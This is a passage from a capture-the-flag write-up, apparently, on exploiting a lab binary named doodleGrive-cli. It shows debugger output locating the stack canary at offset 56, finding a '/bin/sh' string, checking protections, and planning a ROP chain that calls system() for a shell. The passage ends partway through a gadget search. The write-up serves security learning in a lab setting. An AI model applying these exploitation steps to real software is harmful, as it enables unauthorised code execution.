    0056| 0x7fffffffdab8 ("b3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value

    Breakpoint 1, 0x0000000000402327 in main ()



This value is the part of the pattern that ended up as the canary.
`pattern_offset` will show how far into the pattern that is:



    oxdf@hacky$ pattern_offset -q 4130634139624138
    [*] Exact match at offset 56



So I want 56 bytes then the leaked canary and then the return address.

#### Addresses

My strategy is going to be to call `system("/bin/sh")`. I'll need a
`/bin/sh` string to pass to `system`. I can't send it myself, as `/` is
a banned character. But it exists in the binary:



    oxdf@hacky$ strings -a -t x doodleGrive-cli | grep bin/sh
      97cd5 /bin/sh



Because the binary has PIE disabled, this should be at the same place
every time:



    gdb-peda$ checksec 
    CANARY    : ENABLED
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : disabled
    RELRO     : Partial



I'll also need the address of `system` (and `exit` if I want to be
clean), and those are easily found with `pwntools` in Python by loading
the binary (`elf = ELF("./doodleGrive-cli")`) and then referencing the
addresses (`elf.sym.system` and `elf.sym.exit`).

Finally, I need two gadgets. In 64-bit, the first argument to `system`
will be the string at the address in RDI. So I need a `pop $rdi; ret`
gadget. I'll also need a plain `ret` gadget for stack alignment.

[Ropper](https://github.com/sashs/Ropper) is a nice tool for this:



    oxdf@hacky$ ropper -f ./doodleGrive-cli --search "pop rdi"
    [INFO] Load gadgets from cache
    [LOAD] loading... 100%
    [LOAD] removing double gadgets... 100%
    [INFO] Searching for gadgets: pop rdi
